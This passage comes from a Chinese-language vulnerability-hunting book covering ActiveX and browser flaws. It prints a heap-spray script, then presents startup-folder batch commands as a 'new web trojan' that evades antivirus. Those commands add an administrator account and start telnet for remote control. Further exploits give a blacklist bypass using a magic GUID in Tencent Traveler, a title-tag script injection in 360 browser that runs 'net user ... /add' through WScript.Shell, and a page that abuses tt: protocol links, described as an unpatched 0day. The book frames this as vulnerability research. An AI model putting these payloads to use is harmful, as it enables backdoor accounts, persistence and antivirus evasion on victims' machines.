var heapBlockSize = 0x200000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
var spraySlide = unescape("%u0505%u0505");
spraySlide = getSpraySlide(spraySlide, spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;
memory = new Array();
for (i = 0; i < heapBlocks; i++) {
    memory[i] = spraySlide + shellcode; // 通过循环语句不断地往内存中放入ShellCode
}

function getSpraySlide(spraySlide, spraySlideSize) {
    while (spraySlide.length * 2 < spraySlideSize) {
        spraySlide += spraySlide;
    }
    spraySlide = spraySlide.substring(0, spraySlideSize / 2);
    return spraySlide;
}
```

上面这段代码几乎是一个用来实现“heap spray”技术的通用网页脚本代码。这虽然方便了网页木马程序的开发，但是一些安全防护软件却可以轻而易举地监视到这种网页代码。一旦它们发现浏览器当前打开的网页中包含这种网页脚本代码，它们就会认为当前网页是一个网页木马程序，从而迅速阻止浏览器运行其中的网页脚本代码。这个时候，网页木马程序的功能就失效了。

虽然我们可以通过变化脚本代码来防止被安全防护软件察觉，并且最终实现“heap spray”技术，但是安全防护软件也可以监视浏览器进程是不是在试图运行可执行文件。这样一来，即使我们逃过了安全防护软件对网页脚本代码的监视，我们最终也不能成功将 ShellCode 运行起来，因为 ShellCode 代码的目的就是为了运行木马病毒这样的可执行文件。

不过现在问题有了突破，如果我们发现的一个安全漏洞像是我们上面发现的关于 Grid++Report 这样的文件操作漏洞，那么一切问题就迎刃而解了。为什么这么说呢？

- 第一，我们不需要“heap spray”技术，因为我们不是溢出漏洞，这样安全防护软件就监视不到网页代码中的异常代码。
- 第二，我们不通过浏览器执行 ShellCode，为此，我们就不会触发“浏览器运行可执行文件”这类监视，安全防护软件对此也无法监视到。
- 第三，我们只要在用户系统上创建包含命令的批处理文件，最终这个文件将被系统自动运行，我们可以借助命令来实现木马病毒程序同样的功能，最终达到远程控制用户主机的目的。利用这种漏洞制造出来的网页木马程序完全不同于以往的网页木马程序，所以我们称之为“新型网页木马”。

这种“新型网页木马”是非常难以被安全防护软件发现的，但是它同样可以实现在用户系统中安装木马病毒程序的目的，甚至可以做一些更加隐蔽的控制。例如，在上面的这个案例中，我们就可以借助 Grid++ Report ActiveX 控件的漏洞将系统命令写入到用户的系统启动目录中，所写系统的命令可以类似下面这样（注意，文字部分是解释部分）：

```bash
Net user aiwuyan 123456 /add  // 在系统中创建一个名为 aiwuyan 的用户
Net localgroup administrators aiwuyan /add  // 将 aiwuyan 用户设置为系统管理员
Net start telnet  // 启动 telnet 服务
Exit  // 命令执行完毕关闭窗口
```

借助以上四句系统命令，我们将会在用户的系统当中创建一个名为“aiwuyan”的管理员用户，同时，我们还开启了用户系统当中的 Telnet 服务，这是一个可以远程连接的服务。通过这个服务我们可以直接连接到用户的计算机系统，同时，借助我们创建的用户，我们就可以顺利实现远程登录用户系统，从而进一步控制用户系统了。这样一来，我们同样实现了远程控制用户系统的目的，中间没有借助任何木马程序，减少了杀毒安全软件发现入侵行为的可能。

通过这个案例，我们看到“新型网页木马”的危害性丝毫不低于普通溢出型的网页木马程序，而且，对于安全防护软件来说，也很难防范与发现。所以，在我们进行对 ActiveX 控件的安全漏洞挖掘时，千万不要只去测试溢出型的安全漏洞，一定要打开思路，全面测试，学习借鉴本章中的操作技巧与思路，深入挖掘出那些藏在“暗处”的安全漏洞。

### 思考题

- 1. ActiveX 漏洞的挖掘刚开始需要注意什么？
- 2. 新型网页木马为什么难以被杀毒安全软件防范？

### 答案

- 1. 本章一开始讲过，并不是所有的 ActiveX 控件都可以被浏览器自动调用，有一些 ActiveX 控件由于注册的方式不一样，使得它们不能被浏览器调用；即使调用也必须在本地系统，而无法通过访问远程网页使得浏览器自动调用。区分方法主要是查询注册表中对应键值是否存在，例如 KillBit 位的设置等。
- 2. 新型网页木马由于没有采用传统网页木马的利用代码，如实现 heap spray 的脚本代码，使得网页代码中没有能够被安全软件当作病毒特征的脚本代码；同时，新型网页木马的工作原理不同于传统网页木马，它不需要将大量的 ShellCode 写入到浏览器内存，甚至也不需要立即执行某些程序，这就使得安全软件难以跟踪监视到浏览器在调用这些控件时发生了什么特殊的行为。

## 第10章 浏览器中的特殊漏洞

在本书第6章中，我们学习了如何利用 Browser Fuzzer 2 程序来挖掘浏览器软件安全漏洞的方法。Browser Fuzzer 2 程序利用网页代码来测试浏览器软件是否存在诸如缓冲区溢出、拒绝服务之类的安全漏洞，总的来说，利用 Browser Fuzzer 2 程序挖掘出的浏览器软件安全漏洞属于典型的应用程序安全漏洞。

随着用户使用要求的不断变化，现如今，浏览器软件的功能也开始变得丰富多彩起来。例如，用户如果只想要获得某个网页中所有的图片，那么浏览器软件就可以提供一个下载所有当前网页图片的功能，这样用户就不必一个一个地去保存当前网页中的图片。还有的浏览器软件还提供了保存当前网页内容为图片的功能，相当于一个截图功能，这就方便用户可以立即保存当前网页内容，不需要另外安装什么截图软件。例如，腾讯的 Tencent Traveler 浏览器就带有“屏幕截图”功能，可以完成基本的屏幕截图功能，方便用户及时获取保存当前屏幕内容，如图10.1所示。


这些丰富的浏览器功能，目的旨在为用户提供更好地服务。但是，在计算机安全领域有一个安全经验：“要想越安全，就应当提供越精简的服务。”这句话的意思很明显，越少的服务向外暴露安全漏洞的机会就越少。对于一个应用程序来说，如果它的功能比较单一，那么它反而不会出现大量的安全漏洞；相反，如果一个应用程序功能非常复杂，那么它就等于提供了更多的机会被人挖掘出安全漏洞，加大了漏洞发生的几率。

浏览器软件的开发者在丰富自己浏览器软件产品功能的同时，也就陷入到了出现更多安全漏洞的死循环里。并且，这些额外功能引发的安全漏洞完全不同于我们原先熟知的那些安全漏洞，很多安全漏洞是非常特殊的，是浏览器软件独有的安全漏洞。

下面，我们将以当今浏览器软件中最易出现的两种特殊安全漏洞为例，向大家展示浏览器特殊安全漏洞的具体挖掘方法与利用方法。

### 10.1 绕过浏览器的黑白名单机制

#### 10.1.1 黑白名单机制的作用

以往的浏览器软件只是提供单纯的显示网页文件或者访问远程网址的功能，但是，对于其所访问的网址是否安全，是否涉及黄色信息，是否存在恶意攻击代码，浏览器软件本身并不会进行判断，这就造成用户可能会不小心通过浏览器软件访问到带有恶意攻击性质的网页文件，造成用户系统被安装木马病毒程序，从而使得用户计算机上的个人信息被泄露。对于黄色网站来说，如果未成年人通过浏览器软件访问到某些带有黄色信息的网站内容，这些内容就会影响到他们的生长发育，甚至导致严重的青少年犯罪。

为了提供给用户一个良好、安全的网站内容访问环境，浏览器软件的开发者开始在浏览器软件中加入一种叫作“黑白名单”的保护机制。

黑白名单保护机制原理很简单，浏览器允许用户可以设定哪些网址为不该访问的网址，即黑名单网址。当其他用户试图使用浏览器访问这些黑名单网址的内容时，浏览器会马上阻止访问，从而实现保护用户系统的功能。一些知名的浏览器软件都带有黑白名单保护机制，甚至有一些浏览器软件的黑名单网址可以通过浏览器自动升级来从浏览器开发商那里获得。浏览器开发商会定期将互联网上的不安全网站地址收集起来，供浏览器升级使用，这样用户就不必自己设置黑名单网址，大大方便了用户使用，也更加提高了浏览器的安全性。这种机制的原理我们可以用一张图来表示，如图10.2所示。

从图10.2中我们看到，黑白名单机制最主要是用来阻止用户对黑名单网址的访问；对于白名单网址则是永远信任；对于既不属于黑名单的网址，也不属于白名单的网址则允许用户正常访问。


浏览器软件的黑白名单机制在很大程度上保护了用户系统免受恶意网站内容的攻击，通过黑白名单机制，浏览器软件也能够阻止广告网址。现在，很多网站为了网站盈利目的，大量引入广告网页内容，这些广告内容有些不堪入目，有些一旦用户打开后就是几个或者几十个网页同时出现，十分干扰用户对正常网站内容的访问。为此，可以借助黑白名单机制来阻止这些广告网址，保证用户使用浏览器软件访问网站内容不被“打扰”。

浏览器软件在实现黑白名单机制时，由于开发者技术水平的层面不同，对具体如何编程实现黑白名单机制有着不同的认识，这就造成某些浏览器软件的黑白名单机制会出现被绕过的现象，我们称这种现象为“Bypass”，即英文的绕过。而造成 Bypass 的问题我们称之为“绕过漏洞”。

一旦浏览器的黑白名单机制存在绕过漏洞，那么浏览器的安全性就会大大降低，黑名单的阻止机制就如同虚设，用户系统的安全就无法得到保障。

然而，要想成功实现绕过浏览器软件的黑白名单机制也需要一定的技巧。下面，我们就结合腾讯 Tencent Traveler 浏览器来看一看如何挖掘浏览器软件的黑白名单机制绕过漏洞。

#### 10.1.2 突破腾讯 Tencent Traveler 浏览器的黑白名单防护

2009年4月，我向腾讯公司汇报了一个安全漏洞，这个安全漏洞所涉及的产品就是腾讯公司的 Tencent Traveler 浏览器，版本为4.5。该浏览器存在一个严重的黑白名单机制绕过漏洞，现在我们就来看一看该漏洞是如何被发现的。

本次测试软件环境为：

- 操作系统：Windows XP SP2 32位版本
- 漏洞测试运行环境：VMware 虚拟机 + IIS
- 漏洞测试目标软件：Tencent Traveler 浏览器 4.5 版本

首先，我们通过 VMware 虚拟机安装好 Windows XP SP2 32 位版本，同时安装 IIS 服务程序，配置虚拟机中的 Windows XP 系统 IP 地址为 192.168.0.3。运行 Tencent Traveler 浏览器，打开“工具”菜单中的“TT选项”，我们可以看到 Tencent Traveler 浏览器 4.5 版本带有一个“黑白名单”的功能，如图10.3所示。


> 小贴士：其实，这里为读者演示的安全漏洞存在于整个腾讯 Tencent Traveler 浏览器 4.5 版本当中，所以，不用区分你测试的 Tencent Traveler 浏览器是 4.5（231）版本，还是 4.5（201）版本，只要是 4.5 版本的都可以。

我们在 Tencent Traveler 的黑名单中设置 192.168.0.3 这台服务器为不可以访问的服务器地址，点击图10.3中“黑名单列表”下方的“添加”按钮，出现一个对话框，如图10.4所示。


在图10.4中输入 `http://192.168.0.3` 这个网址。注意，这里我们采用“模糊匹配”方式来检测 Tencent Traveler 的黑白名单功能是不是够全面。因为“模糊匹配”模式下，按照 Tencent Traveler 浏览器的解释，它将阻止“网址域名下的所有子网址”。按照道理来说，这种模式对一个网址的阻止功能更加全面一些。设置完成后，切记一定需要在“开启黑白名单功能”前的小方框中打勾，开启黑白名单保护机制，如图10.5所示。


最后，点击“保存”按钮，Tencent Traveler 浏览器的黑白名单功能就开始工作了。现在，我们使用 Tencent Traveler 访问 192.168.0.3 这个 IP 地址，效果如图10.6所示。


从图10.6中我们看到，Tencent Traveler 确实成功实现了对 192.168.0.3 地址的限制访问，提示该网页可能不安全，同时，也提供给用户三个选择：一是“继续访问”，二是“加入白名单”，三是“了解更多”。

此刻，我们注意到图10.6中显示的这个提示页面看起来非常类似一个网页，Tencent Traveler 浏览器看来使用了网页代码的方式来显示安全提示信息。既然是网页，那么我们想到，如果通过分析该安全提示网页的源代码，我们会不会找到突破 Tencent Traveler 浏览器阻止访问黑名单网址的方法呢？

点击 Tencent Traveler 浏览器的“查看”菜单，选择“源文件”，这个时候 Tencent Traveler 浏览器将会调用 Windows 系统自带的记事本程序显示出安全提示网页的源代码，如图10.7所示。

在这些源代码中，我们找到了一些非常敏感的信息，如下所示。

```javascript
function reLoadUnSafeUrl2(){
    result=strHref.substr(nPos+1,strHref.length);
    if(result.indexOf("http://")>=1){
        document.getElementById("address").href=result+"8C1651C5-58AF-43e8-9745-CB2943984178";
    }else if(result.indexOf("https://")>=1){
        document.getElementById("address").href=result+"8C1651C5-58AF-43e8-9745-CB2943984178";
    }else{
        document.getElementById("address").href="http://"+result+"8C1651C5-58AF-43e8-9745-CB2943984178";
    }
}
```

这是一个 JavaScript 函数，它的作用就是完成用户点击图10.6中“继续访问”链接后的动作。

还记得前面我们提到过，Tencent Traveler 浏览器在阻止用户访问一个黑名单网址后，会在安全提示网页中给出三个可供用户选择的处理当前网址的方式，其中第一个就是“继续访问”。用户如果确定当前被阻止网址不存在恶意代码，那么他就可以通过点击安全提示网页中的“继续访问”链接，控制浏览器继续访问原本已经被阻止的网址。这个过程就是由上面的 JavaScript 代码来实现的。


图10.7 阻止窗口的源代码

那么，Tencent Traveler 浏览器究竟是怎样实现继续访问已经被阻止访问的网址呢？从上面的 JavaScript 代码中我们不难分析出，原来，当用户点击“继续访问”链接后，`reLoadUnSafeUrl2` 这个函数将会在当前网址的后面添加上“8C1651C5-58AF-43e8-9745-CB2943984178”这一段数据，然后再将这个组合后的网址重新让浏览器访问，浏览器就认为此刻的网址已经不再是黑名单网址，从而允许用户继续访问已经被阻止的网址内容。

看到这里，有读者一定会喊：“天哪！那不是说，所有黑名单网址只要添加了 8C1651C5-58AF-43e8-9745-CB2943984178 这段数据，就都成了正常网址，浏览器将不再阻止访问了吗？”没错！Tencent Traveler 浏览器采用了一个特殊的数据组合作为“超级口令”；无论一个网址是不是黑名单网址，只要这个网址带有了“8C1651C5-58AF-43e8-9745-CB2943984178”这个“超级口令”，那么，Tencent Traveler 浏览器将不会区分该网址应不应该被阻止访问，而是一律放行。浏览器保护用户系统的机制被这个“超级口令”破坏，黑白名单机制如同虚设。

究竟结果是不是如同我们分析的那样严重？现在，让我们来做一个测试：建立一个记事本文件，在其中键入以下代码。

```html
<a href="http://192.168.0.3/8C1651C5-58AF-43e8-9745-CB2943984178">突破 Tencent Traveler 浏览器黑名单保护机制</a>
```

保存该记事本文件为“TT4.5bypass0day.htm”，直接打开该文件，然后点击其中的超链接，你会发现我们竟然成功访问到了 192.168.0.3 这个网址！

一个小小的设计疏忽，导致了一个功能的作废，这种损失还是比较大的。Tencent Traveler 4.5 版本浏览器的这个安全漏洞可以说是一个非常经典的 Bypass 漏洞案例，读者可以举一反三来挖掘其他浏览器软件中的 Bypass 漏洞。

### 10.2 危险的跨域漏洞

#### 10.2.1 什么是跨域

对于浏览器软件来说，由于它最主要的功能是访问本地计算机以外的数据信息，在访问这些数据信息的时候，浏览器软件可能会按照这些数据信息的要求与本地计算机进行一些文件或者其他数据的操作，这个时候就面临一个安全的问题。如果浏览器在依照外部数据要求操作本地计算机上的数据时没有很好地区分哪些操作应该执行，哪些操作不应该执行，那么就可能发生外部数据借助浏览器软件本身来破坏或者攻击浏览器软件所在的本地计算机系统，从而造成安全问题的发生。为了解决这个问题，浏览器软件的设计者为浏览器划分了一个叫作“域”的范围。

“域”这个概念很好理解。对于浏览器来讲，从大的方面来说，就区分为两个域：安装浏览器软件的计算机叫作“本地域”，本地域以外的范围都叫作“外部域”。不同的浏览器对域的划分是不同的，对于微软的 Internet Explorer 浏览器来说，它把域划分为四个范围，如图10.8所示。


浏览器赋予不同域中的权限是不一样的。本地域中浏览器可能允许网页中的代码直接执行系统命令；但是对于外部域来说，浏览器则会坚决阻止网页中的代码执行系统命令。不然，用户在访问一个远程服务器上的网页文件时，浏览器执行了网页代码中的系统命令，就会造成用户的系统遭受到恶意的攻击行为。

域的细节问题是非常复杂的，我们这里不做过多的探讨。我们只需要明白，对于所有常用浏览器软件来说，本地域和外部域是两个截然不同的范围，浏览器软件赋予这两个域的权限是不同的。

但是，如果浏览器软件的开发者没有很好地把握安全机制的落实，那么浏览器软件就很可能会出现原本是属于远程域的网页代码，此刻被浏览器赋予了本地域权限。如果网页代码中包含一些恶意代码，就会以本地域权限执行，从而引发严重的安全隐患。这种现象被我们称之为浏览器的“跨域”安全漏洞。

跨域安全漏洞最大的危害在于，浏览器常常会给本地域很大的权限，例如可以执行系统命令、可以修改系统注册表等等。一旦一个原本是外部域的网页文件被以本地域权限打开，恶意攻击者就可以在远程网页中放置需要本地域权限才能够执行的攻击代码，借助浏览器软件的这种跨域漏洞成功获得浏览器的本地域权限，进而使得攻击代码被运行，达到攻击浏览器所在系统的目的。

跨域安全漏洞是浏览器软件中非常重要的一种安全漏洞，其危害性不亚于缓冲区溢出漏洞。所以，在挖掘浏览器软件的安全漏洞时，一定要注意对这种安全漏洞的挖掘。下面，我们将结合两个安全漏洞实例来向读者展示挖掘浏览器跨域安全漏洞的方法。

### 10.2.2 揭秘360安全浏览器的跨域脚本执行漏洞

本小节我们与大家一起学习的是针对 360 安全浏览器跨域脚本执行漏洞的挖掘。本次漏洞挖掘的软件环境为：

- 漏洞测试运行环境：Windows XP SP2 32位版本 + IIS
- 漏洞测试目标软件：360安全浏览器 2.2 版本

> 小知识：这个漏洞是由 S.U.S 组织的暗夜猎风发现的，漏洞影响到 360 安全浏览器 2.0、2.1、2.2 多个版本。这个漏洞可以造成用户在使用 360 安全浏览器访问恶意网页后，在关闭浏览器后再次运行浏览器时，浏览器将会自动执行恶意网页脚本代码，从而导致恶意攻击者借助网页脚本代码向用户系统中添加管理员或者窃取用户计算机中保存的机密文件等信息，危害较大。

在系统中安装好 360 安全浏览器 2.2 版本后，我们在浏览器的地址栏中输入“se:home”回车访问，如图10.9所示。

在这个页面中会出现一个“上次未关闭页面”的区域，这个区域的作用是显示上一次用户直接关闭浏览器前未及时关闭的网页网址信息。假设我们用 360 安全浏览器访问了百度的网址后，没有关闭这个网页而是直接将浏览器关闭了，那么当我们下一次运行 360 安全浏览器的时候，就会在“上次未关闭页面”的区域显示出百度的网址信息。


在“上次未关闭页面”的区域鼠标右击，在出现的菜单中选择“查看源文件”，如图10.10所示。


这个时候，系统将自动调用记事本程序显示出“上次未关闭页面”区域的原始代码，我们在其中找到以下代码。

```javascript
<script language="JavaScript">
for(i = g_nCount - 1; i >= 0; i--)
{
    st_url = g_arr_argUrl[i]
    st_name = g_arr_argName[i]
    row = "<tr ID='iwItem' ...>..."
}
```

## 第10章 浏览器中的特殊漏洞

```javascript
(代码片段)
... + "</a>";
row += "<a id=... target='_blank' href='" + str_url + "'>" + subTitle(str_name) + "</a>";
row += "</i>";
document.write(row);
...
</script>
```


图10.11 访问360.htm文件

上面这段代码的作用是用来在360安全浏览器的“上次未关闭页面”的区域显示上一次未关闭网页的一些信息，其中包括网页的标题信息。代码利用“subTitle(str_name)”这个函数直接显示了未关闭网页的标题信息。这个时候，我们就要怀疑这种做法是否安全。

一个网页的标题信息是由HTML语言中的“title”标签所控制的。它的内容可以是任何文字，甚至是网页代码。如果是网页代码，那么360安全浏览器将会直接执行这个网页代码，而不是当作文字显示在浏览器的“上次未关闭页面”的区域。这样一来，万一标题中的网页代码是一段恶意的网页代码，岂不是360安全浏览器将会直接执行这段恶意代码了吗？事情是不是这样呢，让我们现在来测试一下。

建立一个网页文件360.htm，在其中输入以下代码。

```html
<head>
<title>
<script>alert('test')</script>
</title>
</head>
```

简单解释一下这段网页代码的含义，其中最为关键的地方是“<title>”与“</title>”之间的内容。由于“title”标签是用来显示网页标题的，我们在这里放入了一段JavaScript脚本代码，这段脚本代码的作用是弹出一个带有“test”字眼的对话框。


图10.12 再次打开浏览器竟然弹出一个对话框

如果用浏览器直接打开这个网页文件，这段JavaScript代码是不会被执行的，也就是说我们不会看到一个带有“test”字眼的对话框。

现在，将360.htm文件放置在IIS的Web目录当中，打开360安全浏览器，在其中输入网址http://127.0.0.1/360.htm回车，如图10.11所示。

此时，直接关闭360安全浏览器，再次打开360安全浏览器，你会发现一个惊人的画面，如图10.12所示。

浏览器竟然直接弹出了一个带有“test”字眼的对话框，我们的JavaScript代码被成功运行了！

借助这个安全隐患来命令浏览器执行任意网页代码。但是，此刻，我们并没有看到什么跨域的效果，别急，让我们重新看一段网页代码，打开**360.htm**，在其中输入以下代码。

```html
<head>
<title>
<script src="http://127.0.0.1/cmd.js"></script>
</title>
</head>
```


图10.13 访问user.htm文件

这一次，我们不再将脚本代码写入到360.htm的标题处，而是将所有脚本代码保存在一个叫做**cmd.js**的文件中，在360.htm的标题处使用**script**标签来引入这个**cmd.js**文件。**cmd.js**文件中的代码如下所示。

```vbscript
set wsh=createobject("wscript.shell")
a=wsh.run("cmd.exe /c net user aiwuyan 123456 /add",0)
```

这是一段用来向系统添加用户的脚本代码，其中添加的用户名为**aiwuyan**，密码是**123456**。要想在浏览器中运行这段添加用户脚本代码是需要本地域权限的，如果是远程域权限则无法运行该脚本代码。我们先做个测试来向大家证明这一点。

新建一个网页文件叫做**user.htm**，在其中输入以下代码。

```html
<script language="vbscript">
set wsh=createobject("wscript.shell")
a=wsh.run("cmd.exe /c net user aiwuyan 123456 /add",0)
</script>
```

将**user.htm**文件放置在IIS的Web目录当中，在360安全浏览器中输入`http://127.0.0.1/user.htm`回车，如图10.13所示。浏览器没有任何变化，此刻，我们打开Windows系统下的命令行窗口，在其中输入**net user**命令来查看一下当前系统中的所有用户名，如图10.14所示。


图10.14 查看当前系统中的所有用户

从图10.14中我们看到，此刻系统中根本没有一个叫做**aiwuyan**的用户，也就是说浏览器并没有运行那段用来添加用户的脚本代码，因为这个时候脚本代码处于远程域，权限不够，系统阻止浏览器运行添加用户的脚本代码。可是，如果我们直接用浏览器打开**user.htm**，就会出现一个新的画面，如图10.15所示。


图10.15 直接打开user.htm文件

此刻，浏览器给出了一个安全警告提示，我们直接点击“是”按钮后，再次利用`net user`命令查看当前系统用户，如图10.16所示。

我们发现此刻，我们竟然成功地向系统添加了一个叫做“aiwuyan”的用户，我们的脚本代码被成功执行了。这是因为我们直接用浏览器打开`user.htm`时，脚本代码获得了本地域权限，为此，系统允许浏览器运行网页中添加用户的脚本代码。


通过这个演示，我们证明了添加用户的脚本代码确实需要本地域权限才能够成功运行。

现在，我们可以继续前面的测试，将新修改后的`360.htm`文件和`cmd.js`文件一起放置到IIS的Web目录当中。

> 小提示：在继续测试之前，请删除我们刚才添加进入系统的aiwuyan用户，防止干扰我们后面的测试。

打开360安全浏览器，输入网址`http://127.0.0.1/360.htm`回车，如图10.17所示。

此刻，浏览器没有任何变化。打开Windows系统的命令行窗口，用`net user`命令查看当前系统用户，你会发现确实没有一个叫做“aiwuyan”的用户。


现在，直接关闭360安全浏览器。然后，再次运行360安全浏览器，你会发现浏览器给出了一个警告提示，如图10.18所示。

你会发现，360安全浏览器给出的警告提示窗口与我们前面直接用浏览器打开`user.htm`文件时给出的警告提示窗口一模一样，让我们点击“是”看看会有什么事情发生。

点击图10.18中的“是”按钮，然后在Windows系统的命令行窗口中用`net user`命令查看当前系统用户，如图10.19所示。

与图10.16一样的结果，此刻系统中多了一个名叫“aiwuyan”的用户，我们的脚本代码成功执行了。


脚本代码向系统添加用户，而这不就是一个典型的跨域安全漏洞吗？360安全浏览器的一个跨域脚本执行漏洞就这样被我们轻松地挖掘出来。该漏洞的危害性主要在于：用户只要一旦访问了带有恶意脚本代码的网站，在直接关闭360安全浏览器后重新运行浏览器时，那些原本属于远程域的恶意脚本代码将以本地域权限来完成一些系统命令。恶意脚本代码的编写者甚至可以借此漏洞来向用户系统实现远程安装木马病毒程序，危害十分严重。

### 10.2.3 腾讯浏览器跨域修改配置文件0day漏洞

在2009年4月的时候，我曾向腾讯的安全团队发送过一份漏洞安全汇报邮件，报告中主要谈及了我发现的关于腾讯Tencent Traveler浏览器的多个重大安全隐患的具体细节。在2009年5月15日腾讯Tencent Traveler浏览器开发团队更新了腾讯Tencent Traveler浏览器，令人欣慰的是更新后的Tencent Traveler浏览器修补了其中几个安全漏洞。但是，还是有个别漏洞没有及时修补。在随后的日子里，腾讯公司对Tencent Traveler浏览器连续做了几次升级，但是有一个安全漏洞至今仍未修补，而这个安全漏洞恰好就是一个严重的跨域安全漏洞。这里我就拿这个安全漏洞为例，与读者一起学习一下如何挖掘浏览器软件的跨域安全漏洞。

> **小提示：** 这里与读者一起研究的腾讯Tencent Traveler浏览器的跨域漏洞可以说是一个0day漏洞，最新版本的腾讯Tencent Traveler浏览器依旧存在该安全漏洞。我曾经询问过腾讯的安全人员为何不修补该安全漏洞，得到的回答是他们计划去掉腾讯Tencent Traveler浏览器的黑白名单功能，因为这个跨域安全漏洞可以修改到腾讯Tencent Traveler浏览器的网址白名单中。可是一直到今天，我还是没有看到最新的腾讯Tencent Traveler浏览器修补这个跨域安全漏洞，或者去掉了黑白名单功能，这不得不说是一件令人遗憾的事情。

首先描述一下本次漏洞挖掘的软件环境：

- 操作系统：Windows XP SP2 32位版本
- 漏洞测试运行环境：VMware虚拟机 - HIS
- 漏洞测试目标软件：Tencent Traveler浏览器4.8版本

最新的腾讯Tencent Traveler浏览器在修改浏览器配置信息的方式上采用了一种利用自定义协议的方式来修改，这样做的好处是使得用户在修改浏览器配置信息时如同访问一个网页那样简单易操作，如图10.20所示：只要在腾讯Tencent Traveler浏览器的地址栏中键入“tt:config”这个网址后回车，就可以打开配置腾讯Tencent Traveler浏览器的页面。


图10.20 Tencent Traveler浏览器采用网页形式来实现配置

由于是修改腾讯Tencent Traveler浏览器的配置信息，按照道理来说，只有浏览器的使用者才有权利来访问这个修改配置信息的页面。并且，应该绝对阻止存在任何方法通过网络修改到浏览器的配置信息。这个原理很简单，就好比我们自己使用的手机，手机里存储的都是我们自己的信息，不能因为我们用手机打了一个电话后，我们发现自己手机中的所有信息都变成了别人的信息。这种事情是绝对不允许发生的，这等于我们自己的东西可以被别人任意修改，那还算自己的东西吗？

对于浏览器软件来说更是如此，浏览器的配置信息是保存在安装它的计算机上的，应当是只有本地用户可以修改的；也就是此刻正在使用浏览器的这个人可以修改，不能因为我们用浏览器访问了一个远程网页文件，在我们毫不知情的情况下，竟然发生了保存在本地计算机中的浏览器配置信息被随意修改的现象。

但是，腾讯Tencent Traveler浏览器在处理这个问题上好像没有进行深入的思考，导致我们可以制造一个网页文件，用户一旦通过腾讯Tencent Traveler浏览器访问该网页，就可以跨域修改用户的腾讯Tencent Traveler浏览器配置信息。

这里首先给大家展示一段跨域查看用户腾讯Tencent Traveler浏览器配置信息的网页代码：

```html
<script>
function win(){
    window.navigate("tt:config");
}
window.onload=function(){
    for(i=0;i<document.links.length;i++){
        document.links[i].href="javascript:win()";
    }
}
</script>
<a href="dd">点击这里即可查看本地Tencent Traveler浏览器配置信息</a>
```


这是一段非常简单的代码，只是简单利用了window.navigate函数命令浏览器重新打开新的网址，就可以读取到腾讯Tencent Traveler浏览器的配置信息。

保存这段测试代码为config.htm文件，将其保存在虚拟机系统的IIS Web目录当中。打开本地系统中的Tencent Traveler浏览器，在其地址栏中输入虚拟机的IP地址访问我们的config.htm网页，如图10.21所示。


点击其中的“点击这里即可查看本地Tencent Traveler浏览器配置信息”这个超级链接，你会发现Tencent Traveler浏览器马上打开了修改浏览器配置信息的页面，如图10.22所示。

按照我们前面说过的安全要求，Tencent Traveler浏览器的配置页面应当只有使用它的本地用户才能够打开访问。可是此刻我们访问了一个远程网页竟然同样可以打开Tencent Traveler浏览器的配置页面，安全隐患已经发生。

不过，你会说，不就是可以打开浏览器的配置页面嘛；只能看看而已，这有啥危害？除非可以远程修改浏览器的配置信息那才算是安全漏洞。你说的没有错，确实，如果只是单纯地打开Tencent Traveler浏览器的配置页面，那么此刻我们发现的这个安全漏洞的价值就不大了。我们现在需要扩大这个安全漏洞的影响，看看我们能不能通过这个安全漏洞获得修改浏览器配置信息的权限。

对于Tencent Traveler浏览器来说，它在添加白名单网址的时候也同样采用了自定义协议的方法。例如，如果要添加百度的网址`http://www.baidu.com`到Tencent Traveler浏览器的白名单网址中时，Tencent Traveler浏览器会调用`tt:addtowhite#http://www.baidu.com`这样的网址格式来将`http://www.baidu.com`这个网址加入到浏览器的白名单网址当中。

你会问我，你怎么知道Tencent Traveler浏览器采用了`tt:addtowhite#http://www.baidu.com`这样的方式来将一个网址加入到白名单网址当中。还记得我们前面给大家讲到过的那个关于Tencent Traveler 4.5版本浏览器的黑白名单Bypass漏洞吗？那里我们曾经让大家查看了Tencent Traveler浏览器阻止一个网址时给出的安全提示页面的源代码。现在，你可以回过头看一看那个源代码中的内容，你就会发现答案，见下面的代码（注意我加粗的部分）。

```javascript
function addToWhiteList() {
    result = strHref.substr(unPost+1, strHref.length)
    if (result.indexOf("http://") >= 0) {
        document.getElementById("add2whiteurl").href="tt:addtowhite"+"#"+result
    } else if (result.indexOf("https://") >= 0) {
        document.getElementById("add2whiteurl").href="tt:addtowhite"+"#"+result
    } else {
        document.getElementById("add2whiteurl").href="tt:addtowhite"+"#"+"http://"+result
    }
}
```

毫无疑问，白名单网址是属于Tencent Traveler浏览器配置信息的一部分。我们现在就想，借助前面查看浏览器配置信息的那个远程网页文件，我们能不能修改Tencent Traveler浏览器的白名单网址呢？如果一旦我们能够成功修改，那么我们发现的这个安全漏洞的危害就变大了，因为我们可以远程跨域修改到浏览器的配置信息，将任意恶意网址添加进入浏览器的白名单网址当中，造成浏览器不会对恶意网址进行屏蔽，大大降低了浏览器的安全性，使得Tencent Traveler浏览器的黑白名单机制如同虚设。

现在，修改前面的config.htm文件的代码，如下所示。

```html
<script>
function _win(){
    window.navigate('tt:addtowhite#http://www.baidu.com')
}
window.onload=function(){
    for(i=0;i<document.links.length;i++){
        document.links[i].href='javascript:_win()';
    }
}
</script>
<a href="dd">点击这里测试能否修改Tencent Traveler浏览器的白名单网址信息</a>
```

注意，这一次，我们修改了代码中一个重要的地方，原先win函数中的代码是“window.navigate("tt:config");”，而这一次我们修改为了“window.navigate("tt:addtowhite#http://www.baidu.com");”。其中括号中的内容“tt:addtowhite#http://www.baidu.com”代表将百度网址添加进入浏览器白名单网址当中。

再次将config.htm文件传到虚拟机的Web目录下，然后，在Tencent Traveler浏览器中访问config.htm文件，如图10.23所示。

怀着万分激动的心情，我们用鼠标单击图10.23中的“点击这里测试能否修改Tencent Traveler浏览器的白名单网址信息”这个超级链接，结果是什么也没有发生。

现在，查看一下Tencent Traveler浏览器的白名单网址是否将百度的网址加入到其中，如图10.24所示。


图10.23 访问config.htm文件


图10.24 此刻没有将百度网址加入到白名单中

图10.24中的白名单列表中一片空白，并没有显示百度的网址，难道说我们的想法是错误的？我们只能跨域查看浏览器配置信息，却丝毫不能修改浏览器的配置信息吗？

